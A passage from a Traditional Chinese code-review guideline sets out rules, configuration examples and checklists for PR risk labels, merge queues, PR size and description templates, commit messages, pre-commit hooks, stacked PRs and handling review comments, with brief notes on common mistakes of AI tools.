| `CR-PRC-007` | 應該 | 每個 PR／MR 都應標記風險等級（`risk:low`／`risk:medium`／`risk:high`），並由審查者確認等級是否正確；作者低估等級時審查者必須改正 | 🤖 CI 檢查標籤存在（附錄 C.4）；👁 審查者確認 |

```text
# ✅ CR-PRC-004：GitLab .gitlab/CODEOWNERS，以區段要求高風險路徑兩位核准
[Security][2] @example/appsec @example/order-team
/src/main/java/com/example/order/security/
/src/main/resources/application-security.yml

[Database][2] @example/dba @example/order-team
/src/main/resources/db/migration/
```

（片段：只截取兩個高風險區段，完整檔案見 18.5。）

```markdown
<!-- ✅ CR-PRC-007：審查者發現風險等級被低估時改正並說明 -->
**issue (blocking):** 風險等級應為 `risk:high` 而不是 `risk:low`：
這個 PR 修改了 `JwtAuthenticationFilter`（身分驗證，見 3.4 高風險條件）。
我已改正標籤並請 @example/appsec 加入審查，合併前需要兩位核准（CR-PRC-004）。
```

```text
❌ CR-PRC-004：只靠標籤，沒有平台強制
PR #955 標籤：risk:high（修改 JwtAuthenticationFilter）
核准：@bob（1 位）→ 已合併
→ 標籤只是提醒，平台設定的核准人數仍是 1；高風險路徑必須以 CODEOWNERS 區段或 Required reviewers 強制兩位。
```

#### 🔍 3.4 審查與驗證

- **自動檢查：** 附錄 C.4 的工作流程檢查每個 PR 都有一個 `risk:*` 標籤；修改 18.2 列出的高風險路徑時，平台自動要求第二位核准者。
- **人工審查問題：**
  1. 作者標記的風險等級是否正確？「順便修改了一行 SecurityConfig」的 PR 應該是高風險。
  2. 兩位核准者是否都真的審查了高風險部分，而不是一位審查全部、另一位只按核准？
- **AI 常見錯誤：** AI 產生的 PR 描述幾乎都把風險寫成「低」或「無破壞性變更」。審查者應以實際修改的路徑判定，而不是相信描述。

### 3.5 同步審查、走查與正式檢查

非同步審查適合大部分變更，但有些情況用文字來回反而更慢：設計方向有根本分歧、需要解釋大量背景知識、或意見往返超過三輪仍未收斂。這時應改為短時間的同步討論，並把結論寫回 PR。

| 形式 | 時機 | 時間 | 進行方式 | 產出 |
| --- | --- | --- | --- | --- |
| 快速通話 | 往返超過三輪；誤解明顯 | 15 分鐘 | 作者分享畫面，直接討論爭點 | PR 留言記錄結論 |
| 走查（walk-through） | 複雜邏輯、新人第一次提交、跨團隊介面 | 30 分鐘 | 作者逐段說明，審查者提問 | 會議紀錄＋待辦清單 |
| 正式檢查（inspection） | 安全關鍵、金流、法規要求 | 60–90 分鐘 | 主持人主持；審查者事先個別審查；記錄者記錄缺陷 | 缺陷清單、量測數據（缺陷數、花費時間） |

正式檢查的角色依 IEEE 1028 定義：**主持人**（moderator，安排與主持、確保依程序進行）、**作者**（回答問題，不為程式碼辯護）、**朗讀者**（reader，依邏輯順序說明程式碼）、**記錄者**（recorder，記錄每個缺陷的位置、類型與嚴重度）、**審查者**（inspector，事先準備並提出缺陷）。會議只記錄缺陷，不討論解法。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-008` | 必須 | 同步討論的結論必須寫回 PR／MR，包含決定、理由與後續動作；未記錄的口頭結論不算數 | 👁 PR 討論紀錄 |

```markdown
<!-- ✅ CR-PRC-008：同步討論後寫回 PR 的紀錄 -->
**同步討論紀錄（2026-10-07 14:00，15 分鐘，@kevin @amy @tech-lead-chen）**

- 爭點：訂單取消是否要同步呼叫付款服務退款
- 決定：改為發布 `OrderCancelled` 事件，由付款服務非同步退款（與 ADR-0042 一致）
- 理由：付款服務的 P99 延遲 1.8 秒，同步呼叫會讓取消 API 超過 2 秒的 SLO
- 後續：@kevin 在本 PR 修改；退款失敗的補償流程另開 #968
```

```text
❌ CR-PRC-008：只有「線下討論過了」
@kevin：「我們線下討論過了，維持原本的做法。」 [Resolve conversation]
→ 三個月後有人問「為什麼同步呼叫付款服務」，沒有人記得理由。
```

#### 🔍 3.5 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 「線下討論」、「已口頭確認」這類回覆後面有沒有寫明結論？
  2. 正式檢查是否有記錄者與缺陷清單？缺陷是否有追蹤到修正？
- **AI 常見錯誤：** 以 AI 摘要會議逐字稿時，AI 常把「討論過的選項」寫成「決定」。寫回 PR 前由與會者確認決定與理由。

### 3.6 合併與合併後

合併不是審查的終點。核准後的 PR 仍可能因為主幹已經改變而在合併後失敗（兩個各自通過 CI 的 PR，合併在一起後可能衝突），也可能在部署後才出現問題。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-PRC-009` | 必須 | 合併前，CI 必須在「與目標分支最新狀態合併後」的程式碼上通過；多人頻繁合併的程式庫應使用 GitHub merge queue 或 GitLab merge trains，或要求分支在合併前更新到最新 | 🤖 GitHub「Require branches to be up to date」或 Require merge queue／GitLab merge trains 或 Pipelines must succeed＋merged results pipelines |
| `CR-PRC-010` | 應該 | 程式庫應統一合併方式（建議 squash merge，保留一個以 PR 標題為訊息的提交），並在審查政策中寫明 | 🤖 Ruleset「Require merge type」／GitLab Merge method 設定 |
| `CR-PRC-011` | 應該 | 合併者應在合併後觀察部署與監控至少到下一個部署環境驗證完成；發現問題時優先回滾（revert），再另開 PR 修正 | 👁 部署紀錄；🤖 部署通知 |

```yaml
# ✅ CR-PRC-009：GitHub Actions 同時在 pull_request 與 merge_group 事件執行，merge queue 才能使用這個檢查
name: ci
on:
  pull_request:
  merge_group:
permissions:
  contents: read
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          persist-credentials: false
      - uses: actions/setup-java@de7274f081f381c8f8158605e0321c36c376e2e6 # v6.0.1
        with:
          distribution: temurin
          java-version: "25"
          cache: maven
      - run: ./mvnw -B verify
```

```yaml
# ❌ CR-PRC-009：只在 pull_request 執行；啟用 merge queue 後，這個必要檢查永遠不會在佇列中回報，PR 會卡在佇列裡
name: ci
on:
  pull_request:
permissions:
  contents: read
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v7
      - run: ./mvnw -B verify
```

```text
✅ CR-PRC-010：統一以 squash merge 合併，平台設定與審查政策一致
GitHub Ruleset pull_request 規則：allowed_merge_methods = ["squash"]（完整 JSON 見 18.2）
GitHub 程式庫設定：Allow squash merging → Default commit message = Pull request title and description
GitLab 專案設定：Merge method = Merge commit with semi-linear history；Squash commits when merging = Require（squash_option = always）
docs/code-review.md：「合併方式：squash；提交訊息使用 PR 標題（Conventional Commits）」
```

```text
✅ CR-PRC-011：合併後發現問題，先回滾再修正
15:02 PR #1024 合併，部署到 staging
15:20 staging 的取消 API 錯誤率 12%（告警）
15:23 @kevin 以 GitHub「Revert」建立 PR #1031，@amy 核准後合併
15:40 staging 錯誤率恢復 0%；問題另開 #1032 修正並附回歸測試
```

#### 🔍 3.6 審查與驗證

- **自動檢查：** 確認啟用 merge queue 的程式庫中，每個必要檢查的工作流程都有 `merge_group` 觸發條件（actionlint 不會檢查這一點，需以 `grep -L merge_group .github/workflows/*.yml` 比對）。GitLab 確認專案設定「Merged results pipelines」與「Merge trains」已啟用（Premium 以上）。
- **人工審查問題：**
  1. 這個 PR 合併後會自動部署到哪裡？出問題時誰負責回滾？
  2. squash 後的提交訊息（通常是 PR 標題）是否符合 Conventional Commits（4.3）？
- **AI 常見錯誤：** AI 產生的 GitHub Actions 工作流程幾乎都只寫 `on: pull_request`，啟用 merge queue 後必要檢查會一直等待；AI 也常建議以 `--admin` 強制合併來「解決」佇列卡住的問題。

## 4. 作者：準備可審查的變更

審查品質有一半取決於作者。一個 1,500 行、混合了重構、新功能與格式調整、描述只寫「修正問題」的 PR，再優秀的審查者也只能草草看過。本章規範作者在送審前必須完成的準備。

### 4.1 小而聚焦的變更

Google 的工程實務指出：100 行左右通常是合理的變更大小，1,000 行通常太大。SmartBear 與 Cisco 的研究則發現，一次審查超過 400 行，審查者找出缺陷的能力明顯下降。小變更的好處不只是好審查：它們合併得快、衝突少、出問題時容易回滾，也更容易寫出完整的測試。

「行數」只是代理指標，真正的原則是**一個 PR 只做一件事**。下列變更應該拆開：

| 混在一起的內容 | 拆分方式 |
| --- | --- |
| 重構＋新功能 | 先送「不改變行為的重構」，合併後再送新功能 |
| 格式化整個檔案＋修改其中三行 | 格式化獨立一個 PR（或交給工具在全專案一次完成） |
| 資料庫遷移＋使用新欄位的程式碼 | 先送可向後相容的遷移，再送程式碼（見 13.2） |
| 升級相依套件＋配合修改程式碼 | 升級與必要修改一起送，但不要夾帶其他功能 |
| 前端＋後端＋文件 | 依介面拆分：先送 API（含契約測試），再送前端 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-001` | 應該 | 每個 PR 的變更行數（新增＋刪除，不含自動產生的檔案、鎖定檔與測試資料）應不超過 400 行；超過 1,000 行時必須在描述中說明無法拆分的理由，並建議改用堆疊 PR（4.5） | 🤖 附錄 C.4 的 PR 大小檢查；👁 審查者確認理由 |
| `CR-AUT-002` | 必須 | 每個 PR 只有一個目的；不得把重構、格式化、無關的錯誤修正與新功能混在同一個 PR | 👁 審查者依 diff 判斷；🤖 PR 標題的 Conventional Commits 類型只能有一個 |

```bash
#!/usr/bin/env bash
# ✅ CR-AUT-001：計算 PR 的有效變更行數（排除自動產生的檔案、鎖定檔與快照），超過門檻時讓檢查失敗
# 用法：pr-size.sh <PR 編號>；需要 gh 與 jq，GH_TOKEN 由 CI 提供
set -euo pipefail

pr="${1:?usage: pr-size.sh <pr-number>}"
warn="${PR_SIZE_WARN:-400}"
fail="${PR_SIZE_FAIL:-1000}"
exclude='(^|/)(package-lock\.json|pnpm-lock\.yaml|yarn\.lock)$|(^|/)generated/|\.snap$|^src/test/resources/fixtures/'

size=$(gh pr view "$pr" --json files \
  --jq '.files[] | "\(.additions + .deletions)\t\(.path)"' \
  | grep -Ev "$exclude" \
  | awk -F'\t' '{ sum += $1 } END { print sum + 0 }')

echo "有效變更行數：${size}（警告門檻 ${warn}，失敗門檻 ${fail}）"
if (( size > fail )); then
  echo "::error::PR 超過 ${fail} 行，請拆分或在描述的「無法拆分的理由」段落說明（CR-AUT-001）"
  exit 1
elif (( size > warn )); then
  echo "::warning::PR 超過 ${warn} 行，審查品質會下降，建議拆分（CR-AUT-001）"
fi
```

```text
❌ CR-AUT-002：一個 PR 做了四件事
PR #877 feat: 新增退貨功能
  M  OrderService.java          （+180 −20  新增退貨邏輯）
  M  OrderMapper.java           （+60 −310  順便把 MapStruct 改成手寫）
  M  CustomerController.java    （+2 −2    順便修正另一個 bug）
  M  *.java（共 41 個檔案）      （+900 −900 IDE 重新格式化）
→ 審查者無法分辨哪些是有意義的變更；應拆成「格式化」、「Mapper 重構」、「Customer 修正」、「退貨功能」四個 PR。
```

#### 🔍 4.1 審查與驗證

- **自動檢查：** 附錄 C.4 的工作流程在每個 PR 執行 `pr-size.sh`；超過 1,000 行且描述中沒有「無法拆分的理由」段落時失敗。
- **人工審查問題：**
  1. 這個 PR 能否用一句話描述它的目的？若需要「並且」連接多件事，應該拆分。
  2. 有沒有和目的無關的檔案？（常見：IDE 自動格式化、`import` 重新排序、無關的重新命名）
- **AI 常見錯誤：** AI 代理在實作功能時很容易「順便」改善周邊程式碼，產生大量和目的無關的變更。要求 AI 只修改完成任務所需的檔案，其他改善另開 PR。

### 4.2 撰寫 PR／MR 描述

PR 描述是審查者的地圖。好的描述讓審查者在讀程式碼之前就知道**為什麼要改、改了什麼、怎麼證明它是對的、哪裡需要特別注意**。描述也是未來的人理解這個變更的主要文件：squash merge 後，PR 標題成為提交訊息，PR 連結是追溯細節的唯一入口。

| 段落 | 內容 | 常見錯誤 |
| --- | --- | --- |
| 目的（Why） | 要解決的問題、需求或議題編號 | 只寫「修正 bug」 |
| 變更內容（What） | 主要修改，依重要性排序；說明設計選擇 | 逐檔列出 diff 已經看得到的內容 |
| 如何驗證（How verified） | 新增的測試、手動驗證步驟、截圖、效能數據 | 寫「已測試」但沒有說明測了什麼 |
| 風險與影響 | 風險等級、相容性、資料遷移、部署順序、回滾方式 | 一律寫「無」 |
| 審查重點 | 希望審查者特別注意的地方；可以略過的檔案 | 沒有 |
| AI 使用揭露 | 哪些部分由 AI 產生、作者如何驗證（CR-AI-004） | 沒有揭露 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-003` | 必須 | 程式庫必須提供 PR／MR 範本（GitHub：`.github/pull_request_template.md`；GitLab：`.gitlab/merge_request_templates/Default.md`），作者必須填寫目的、如何驗證、風險與影響三個段落，不得保留範本的提示文字 | 🤖 附錄 C.4 檢查必填段落非空；👁 審查者確認內容 |
| `CR-AUT-004` | 應該 | PR 描述應連結議題（issue）或需求編號；UI 變更應附變更前後的截圖或錄影 | 🤖 檢查描述含議題連結；👁 審查者確認 |

```markdown
<!-- ✅ CR-AUT-003：.github/pull_request_template.md（GitLab 放在 .gitlab/merge_request_templates/Default.md） -->
## 目的
<!-- 要解決什麼問題？連結議題：Closes #123 -->

## 變更內容
<!-- 主要修改與設計選擇，依重要性排序；不要逐檔列出 diff -->

## 如何驗證
<!-- 新增或修改了哪些測試？手動驗證步驟？UI 變更請附前後截圖 -->

## 風險與影響
- 風險等級：<!-- risk:low／risk:medium／risk:high，依 code review 指引 3.4 -->
- 相容性：<!-- API、資料庫、設定是否向後相容？ -->
- 部署與回滾：<!-- 是否需要特定部署順序？如何回滾？ -->

## 審查重點
<!-- 希望審查者特別注意的地方；可以略過的檔案（例如自動產生的程式碼） -->

## AI 使用揭露
- [ ] 本 PR 沒有使用 AI 產生程式碼
- [ ] 本 PR 有使用 AI 產生程式碼，範圍與驗證方式：<!-- 例如「OrderMapperTest 由 Copilot 產生，已逐一確認斷言」 -->

## 送審前確認
- [ ] CI 已通過
- [ ] 已自己讀過整個 diff，移除除錯程式碼與不相關的變更
- [ ] 行為變更都有對應的測試
```

```markdown
<!-- ✅ CR-AUT-003、CR-AUT-004：填寫完成的描述 -->
## 目的
客服無法查到訂單被取消的原因，需要人工翻日誌。Closes #842

## 變更內容
- `orders` 表新增 `cancel_reason`（varchar(200)，可為 null），舊資料保持 null
- 取消 API 新增必填欄位 `reason`；舊版前端不傳時回 400（前端 #851 已同步修改）
- 選擇不用列舉：原因由客服自由輸入，需求方確認不需要統計分類

## 如何驗證
- `OrderCancelServiceTest`：新增 4 個案例（正常、空白原因、超過 200 字、已出貨不可取消）
- `OrderCancelApiIT`：以 Testcontainers PostgreSQL 驗證欄位寫入
- staging 手動驗證：取消訂單 SO-20261006-0012，客服後台顯示原因（截圖如下）

## 風險與影響
- 風險等級：risk:medium
- 相容性：API 新增必填欄位屬破壞性變更，前端 #851 必須先部署；已在 API 版本說明記錄
- 部署與回滾：遷移只新增可為 null 的欄位，回滾程式碼不需回滾資料庫

## 審查重點
- `OrderCancelService#cancel` 的狀態檢查順序
- 可略過：`openapi/generated/**`（由 OpenAPI Generator 產生）

## AI 使用揭露
- [x] 本 PR 有使用 AI 產生程式碼，範圍與驗證方式：`OrderCancelServiceTest` 的四個案例由 Copilot 產生初稿，已逐一修改斷言並以變異測試確認會在邏輯錯誤時失敗
```

```markdown
<!-- ❌ CR-AUT-003：沒有資訊的描述 -->
## 目的
修正問題

## 如何驗證
已測試

## 風險與影響
無
```

#### 🔍 4.2 審查與驗證

- **自動檢查：** 附錄 C.4 的工作流程檢查「目的」、「如何驗證」、「風險與影響」三個段落都有非註解的內容。
- **人工審查問題：**
  1. 只讀描述，能不能說出這個 PR 要解決什麼問題？
  2. 「如何驗證」提到的測試，在 diff 裡真的存在嗎？
  3. 描述說「向後相容」，但 diff 裡有刪除欄位或改變回應格式嗎？
- **AI 常見錯誤：** AI 自動產生的 PR 描述（Copilot、GitLab Duo 的「Generate description」）擅長摘要 diff，但會把「改了什麼」寫得很詳細，卻無法知道「為什麼要改」；也常宣稱「已新增完整測試」「無破壞性變更」而未經查證。作者必須自己撰寫目的與風險段落，並核對 AI 的宣稱。

### 4.3 提交訊息

使用 squash merge 時，PR 標題會成為主幹上的提交訊息；使用 merge commit 或 rebase 時，每個提交訊息都會保留。無論哪一種，提交訊息都應該讓人在 `git log` 中看懂每個變更的目的。[Conventional Commits 1.0.0](https://www.conventionalcommits.org/en/v1.0.0/) 提供了業界通用的格式：

```text
<類型>[(範圍)][!]: <描述>

[本文]

[頁尾，例如 BREAKING CHANGE: ...、Refs: #123]
```

| 類型 | 用途 | 類型 | 用途 |
| --- | --- | --- | --- |
| `feat` | 新功能 | `refactor` | 不改變行為的重構 |
| `fix` | 錯誤修正 | `perf` | 效能改善 |
| `docs` | 只修改文件 | `test` | 新增或修改測試 |
| `build` | 建置系統、相依套件 | `ci` | CI 設定 |
| `chore` | 其他雜務 | `revert` | 回滾先前的提交 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-005` | 應該 | PR 標題與提交訊息應符合 Conventional Commits 1.0.0；破壞性變更必須以 `!` 或 `BREAKING CHANGE:` 頁尾標示 | 🤖 commitlint（`@commitlint/config-conventional`）；🤖 附錄 C.4 檢查 PR 標題 |

```js
// ✅ CR-AUT-005：commitlint.config.mjs（以 @commitlint/config-conventional 為基礎，類型限定為團隊同意的清單）
export default {
  extends: ['@commitlint/config-conventional'],
  rules: {
    'type-enum': [2, 'always',
      ['feat', 'fix', 'docs', 'refactor', 'perf', 'test', 'build', 'ci', 'chore', 'revert']],
    'subject-max-length': [2, 'always', 72],
    'subject-case': [0],
  },
};
```

```text
✅ CR-AUT-005：符合格式的提交訊息
feat(order)!: 取消訂單 API 新增必填欄位 reason

客服需要知道訂單被取消的原因。reason 為必填，最長 200 字。

BREAKING CHANGE: POST /api/orders/{id}/cancel 未提供 reason 時回 400。
Refs: #842
```

```text
❌ CR-AUT-005：無法判斷目的的提交訊息
update
fix bug
WIP
修改
```

#### 🔍 4.3 審查與驗證

- **自動檢查：** `npx commitlint --from origin/main --to HEAD` 檢查分支上的所有提交；PR 標題以附錄 C.4 的工作流程檢查。
- **人工審查問題：**
  1. 標題的類型是否和實際變更一致？（例如標為 `refactor` 卻改變了行為）
  2. 有破壞性變更卻沒有 `!` 或 `BREAKING CHANGE:`？
- **AI 常見錯誤：** AI 產生的提交訊息常是 `feat: update code` 或把 diff 逐行翻譯成句子；破壞性變更幾乎不會被標示。

### 4.4 送審前的自我審查

作者自己讀一次 diff，是成本最低、效果最好的審查。研究與實務經驗都顯示，作者在平台上以「審查者的視角」讀過一次，可以在送審前找出許多問題：遺留的除錯程式碼、忘記刪除的註解、不小心提交的檔案、遺漏的測試。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-006` | 必須 | 送審前作者必須在平台上（而不是只在 IDE 中）完整讀過一次 diff，並依附錄 B.1 的自我檢查清單逐項確認；可以在自己的 PR 上留言標註需要審查者注意的地方 | 👁 PR 範本的勾選項；👁 審查者發現明顯的遺留問題時退回 |
| `CR-AUT-007` | 必須 | 不得提交除錯程式碼、被註解掉的程式碼、個人設定檔、秘密與大型二進位檔；應以 pre-commit 掛鉤（hook）在提交前自動檢查 | 🤖 Gitleaks、pre-commit；🤖 ESLint `no-console`／`no-debugger`；🤖 PMD `SystemPrintln` |

```bash
# ✅ CR-AUT-006：在本機以「審查者的視角」檢視分支上的全部變更
git fetch origin
git diff --stat origin/main...HEAD          # 先看修改了哪些檔案、各多少行
git diff origin/main...HEAD -- . ':(exclude)**/generated/**'   # 再逐檔閱讀，排除自動產生的程式碼
git log --oneline origin/main..HEAD          # 確認提交訊息
```

```yaml
# ✅ CR-AUT-007：.pre-commit-config.yaml（以 pre-commit 管理掛鉤，設定進版控，所有成員一致）
repos:
  - repo: https://github.com/pre-commit/pre-commit-hooks
    rev: v6.0.0
    hooks:
      - id: check-added-large-files
        args: ["--maxkb=500"]
      - id: check-merge-conflict
      - id: end-of-file-fixer
      - id: trailing-whitespace
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.30.1
    hooks:
      - id: gitleaks
```

```java
// ❌ CR-AUT-007：送審的程式碼中留下除錯輸出與被註解掉的舊邏輯
public Order cancel(long orderId, String reason) {
    System.out.println("DEBUG cancel " + orderId);   // PMD SystemPrintln
    Order order = orderRepository.findById(orderId).orElseThrow();
    // if (order.isShipped()) {
    //     throw new IllegalStateException("shipped");
    // }
    order.cancel(reason);
    return order;
}
```

（片段：只截取方法本體。）

#### 🔍 4.4 審查與驗證

- **自動檢查：** pre-commit 在本機執行，CI 再執行一次相同的檢查（避免以 `--no-verify` 略過）；Gitleaks 在 CI 掃描整個 PR 的提交範圍。
- **人工審查問題：**
  1. diff 中有沒有被註解掉的程式碼、`TODO`、`System.out`、`console.log`？
  2. 有沒有不該出現的檔案（`.idea/`、`.env`、`*.log`、大型圖片）？
- **AI 常見錯誤：** v1 版本建議把檢查腳本放在 `.git/hooks/pre-commit`，但 `.git/hooks/` 不會進入版控，每位成員都要自己安裝，也無法保證版本一致。應改用 pre-commit、lefthook 或 Husky 等把設定放進程式庫的工具，並在 CI 重複執行。

### 4.5 草稿 PR 與堆疊 PR

**草稿 PR**（GitHub Draft pull request、GitLab Draft merge request）表示「還沒準備好審查」。它讓作者能提早讓 CI 執行、分享進度或徵求方向上的意見，而不會觸發 CODEOWNERS 的審查請求（GitHub 不會對草稿自動請求 CODEOWNERS 審查）。

**堆疊 PR**（stacked pull requests）把一個大功能拆成一串互相依賴的小 PR：第二個 PR 以第一個 PR 的分支為基底，依此類推。審查者可以逐層審查，前面的層合併時後面的層繼續開發。

| 平台 | 機制 | 狀態（2026-10） |
| --- | --- | --- |
| GitHub | 原生 Stacked pull requests；`gh stack` 擴充套件（`gh extension install github/gh-stack`） | 公開預覽（2026-07-30 起） |
| GitLab | Merge request dependencies：設定後，相依的 MR 未合併前不能合併 | 正式功能（Premium 以上） |
| GitLab | `glab stack`：在本機建立堆疊，每個提交對應一個 MR | 實驗功能（不建議正式使用） |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-008` | 應該 | 尚未完成、CI 未通過或只想徵求方向意見的變更，應以草稿 PR／MR 建立，並在描述中寫明希望得到的回饋類型 | 👁 PR 狀態 |
| `CR-AUT-009` | 可以 | 超過 400 行且無法以功能切分的工作，可以使用堆疊 PR；每一層必須能獨立通過 CI，且描述中說明它在整個堆疊中的位置 | 🤖 每層的必要檢查；👁 審查者確認 |

```bash
# ✅ CR-AUT-009：以 gh stack 建立三層的堆疊 PR（GitHub 公開預覽功能）
gh extension install github/gh-stack
gh stack init order-cancel-schema          # 第 1 層：資料庫遷移
# ……實作並提交……
gh stack add order-cancel-service          # 第 2 層：服務邏輯與測試
# ……實作並提交……
gh stack add order-cancel-api              # 第 3 層：API 與文件
# ……實作並提交……
gh stack submit                            # 推送所有分支並建立／更新三個 PR
# 審查者要求修改第 1 層時：
gh stack checkout order-cancel-schema
git commit -am "fix(order): cancel_reason 長度改為 200"
gh stack rebase                            # 依序 rebase 上面兩層
gh stack push                              # 以 --force-with-lease 推送
```

```text
❌ CR-AUT-008：把未完成的工作以一般 PR 送審
PR #930 feat: 退貨流程（非草稿）
描述：「還在寫，先開起來」
→ CODEOWNERS 被自動請求審查，三位審查者各花 10 分鐘看了一半完成的程式碼。
```

#### 🔍 4.5 審查與驗證

- **自動檢查：** 堆疊中的每一層都必須通過必要檢查；GitLab 的 MR 相依性會阻擋在前一個 MR 合併前合併。
- **人工審查問題：**
  1. 審查堆疊中的某一層時，是否只看這一層的 diff（GitHub 的堆疊 PR 預設只顯示該層的變更）？
  2. 下層被要求修改後，上層是否已 rebase 並重新通過 CI？
- **AI 常見錯誤：** AI 代理通常一次產生整個功能的所有變更，不會主動拆成堆疊。給 AI 的任務應明確要求「分成 N 個可以獨立審查的提交」，再由作者以 `gh stack` 或手動分支整理。

### 4.6 回應審查意見

作者回應意見的方式決定了審查的效率與氣氛。每一則意見都應該得到明確的回應：已修正、不同意並說明理由，或同意但另開議題處理。

| 回應類型 | 做法 | 範例 |
| --- | --- | --- |
| 已修正 | 修正後回覆修正提交的連結或簡述 | 「已改為參數綁定，見 3c4d5e6」 |
| 不同意 | 說明理由與證據；不要只回「我覺得這樣比較好」 | 「這裡刻意不用快取：訂單狀態每秒更新，快取命中率實測只有 3%」 |
| 延後處理 | 同意但不在本 PR 處理時，開議題並附連結 | 「同意，已開 #970 處理，本 PR 範圍維持不變」 |
| 需要釐清 | 不理解意見時直接提問 | 「你指的是並行取消同一張訂單的情況嗎？」 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-AUT-010` | 必須 | 作者必須回應每一則阻擋性意見（已修正、說明不同意的理由，或經審查者同意後延後並附議題連結）；不得在未回應的情況下自行把討論標為已解決 | 🤖 Require conversation resolution；👁 審查者確認回應內容 |
| `CR-AUT-011` | 應該 | 審查進行中應以新增提交（必要時使用 `git commit --fixup`）回應意見，而不是改寫歷史後強制推送；需要 rebase 時應在 PR 留言告知審查者 | 👁 PR 時間軸；🤖 squash merge 在合併時整理歷史 |

```text
✅ CR-AUT-010：逐則回應
@amy（issue, blocking）：取消已出貨的訂單沒有被擋下。
@kevin：已修正，新增 OrderCancelServiceTest#rejectsShippedOrder，見 7a8b9c0。

@amy（suggestion, non-blocking）：cancel_reason 可以考慮改用列舉。
@kevin：這次維持自由輸入（需求方確認不做統計），若之後要統計再開議題。原因已寫在 PR 描述的「變更內容」。

@amy（question）：前端不傳 reason 時會怎樣？
@kevin：回 400，錯誤碼 ORDER_CANCEL_REASON_REQUIRED；前端 #851 已改為必填。
```

```bash
# ✅ CR-AUT-011：審查期間以 fixup 提交回應意見，審查者可以只看新提交；合併前（或以 squash merge）再整理歷史
git commit --fixup=HEAD~2 -m "ignored"   # --fixup 會自動產生「fixup! <原提交標題>」的訊息
git push                                  # 一般推送，不改寫歷史
# 所有意見處理完、審查者同意後，若程式庫不使用 squash merge，才整理歷史：
git rebase -i --autosquash origin/main
git push --force-with-lease
```

```text
❌ CR-AUT-010：不回應就把討論標為已解決
@amy（issue, blocking）：這裡會有 N+1 查詢。
@kevin：[Resolve conversation]
→ 沒有修正、沒有說明；審查者必須重新發現問題。
```

#### 🔍 4.6 審查與驗證

- **自動檢查：** 平台的「所有討論必須解決才能合併」只能確認討論被標為已解決，不能確認問題真的被處理。
- **人工審查問題：**
  1. 被標為已解決的阻擋性意見，是否都有對應的修正或說明？
  2. 作者強制推送後，先前的意見位置是否還對得上？（GitHub 會標示「outdated」）
- **AI 常見錯誤：** 讓 AI 代理「處理所有審查意見」時，它常對每則意見都做出修改，包括審查者只是提問或標為非阻擋的建議；也常在修改後自動把討論標為已解決。作者應逐則確認 AI 的修改是否符合審查者的原意。

## 5. 審查者：如何審查

### 5.1 審查前的準備

審查從理解「這個變更要解決什麼問題」開始，而不是從第一行 diff 開始。不先理解目的，審查者只能檢查程式碼「寫得好不好」，無法判斷它「做得對不對」：一段寫得很漂亮的程式碼，可能完全誤解了需求。

| 步驟 | 動作 | 花費時間 |
| --- | --- | --- |
| 1 | 讀 PR 描述與連結的議題，用自己的話說出變更的目的 | 2–5 分鐘 |
| 2 | 看 CI 結果：失敗就先停下來，請作者修正 | 1 分鐘 |
| 3 | 看檔案清單與行數，判斷風險等級（3.4）與需要的審查深度 | 1–2 分鐘 |
| 4 | 若有設計文件或 ADR，先讀設計 | 視情況 |
| 5 | 決定這次能否完成；不能時依 CR-PRC-002 回覆預計時間 | — |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-REV-001` | 必須 | 審查者必須先確認變更的目的，並判斷實作是否符合需求；描述不足以理解目的時，第一則意見應是要求作者補充，而不是開始逐行審查 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-REV-001：描述不足時，先請作者補充目的 -->
**question (blocking):** 描述只寫了「調整訂單狀態邏輯」，我無法判斷預期行為。
可以補充：
1. 要解決的問題或議題連結？
2. 哪些狀態轉換被改變了？（例如原本 SHIPPED → CANCELLED 是否允許？）

補充後我再開始審查，謝謝！
```

```text
❌ CR-REV-001：沒有理解目的就逐行挑錯
@bob：第 23 行可以用 Optional.map。
@bob：第 41 行變數名稱 tmp 不清楚。
@bob：LGTM，核准。
（這個 PR 把「已出貨訂單不可取消」的檢查刪除了，但 @bob 不知道這是需求還是錯誤，也沒有問）
```

#### 🔍 5.1 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 我能用一句話說出這個 PR 的目的嗎？
  2. 這個變更是否真的解決了議題描述的問題，還是只解決了其中一部分？
- **AI 常見錯誤：** AI 審查工具只能看到 diff 與程式庫內容，看不到需求討論、口頭約定或客戶的實際使用方式。它能指出「這段程式碼可能有 null」，但無法判斷「刪除這個檢查是不是需求」。需求符合度必須由人判斷。

### 5.2 閱讀順序

Google 的工程實務建議分三步閱讀一個變更：**先看整體**（這個變更合理嗎？）、**再看主要部分**（邏輯最多的檔案）、**最後依序看其餘部分**。在主要部分發現重大設計問題時，應立即回覆，不必等全部看完：作者可以提早開始修改，審查者也不必在可能被重寫的程式碼上花時間。

建議的閱讀順序：

1. **介面與契約**：API 定義（OpenAPI）、DTO、公開方法簽章、資料庫遷移。這些決定了變更對外的影響。
2. **測試**：測試說明了作者認為程式「應該」做什麼。先讀測試，再讀實作，可以發現「測試沒有涵蓋的情境」。
3. **主要邏輯**：Service、Domain 等包含業務規則的程式碼。
4. **周邊程式碼**：Controller、Mapper、設定檔。
5. **自動產生與機械性變更**：確認它們確實是自動產生的，不必逐行閱讀（見 CR-REV-003 的例外）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
